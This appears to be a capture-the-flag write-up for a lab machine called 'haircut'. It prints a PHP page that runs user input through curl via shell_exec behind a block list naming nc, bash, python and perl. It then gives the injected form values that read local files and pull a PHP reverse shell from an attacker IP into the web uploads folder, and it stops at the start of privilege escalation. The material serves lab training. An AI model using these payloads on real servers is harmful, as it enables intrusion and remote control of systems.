 get current source

formurl=file:///var/www/html/exposed.php&submit=Go
```php
<?php 
    if(isset($_POST['formurl'])){
    echo "<p>Requesting Site...</p>"; 
    $userurl=$_POST['formurl'];
    $naughtyurl=0;
    $disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']');
    foreach($disallowed as $naughty){
        if(strpos($userurl,$naughty) !==false){
            echo $naughty.' is not a good thing to put in a URL';
            $naughtyurl=1;
        }
    }
    if($naughtyurl==0){
        echo shell_exec("curl ".$userurl." 2>&1"); 
    }
    }
?>
```


write files

formurl=http://10.10.14.17/php-reverse-shell.php -o /var/www/html/rev.php&submit=Go

Warning: Failed to create the file /var/www/html/rev.php: Permission denied


formurl=http%3a//10.10.14.17/php-reverse-shell.php+-o+/tmp/rev.php

works with /tmp


formurl=http%3a//10.10.14.17/php-reverse-shell.php+-o+/var/www/html/uploads/rev.php&submit=Go

works with /uploads

Shell!
![](2021-02-15-14-59-32.png)

## privilege escalation

nothing in /var/www/html


www-data@haircut:~$ find .
.
./html
./html/hair.html
./html/carrie.jpg
./html/test.html
./html/bounce.jpg
./html/sea.jpg
./html/index.html
./html/exposed.php
./html/uploads
./html/uploads/bounce.jpg
./html/uploads/rev.php

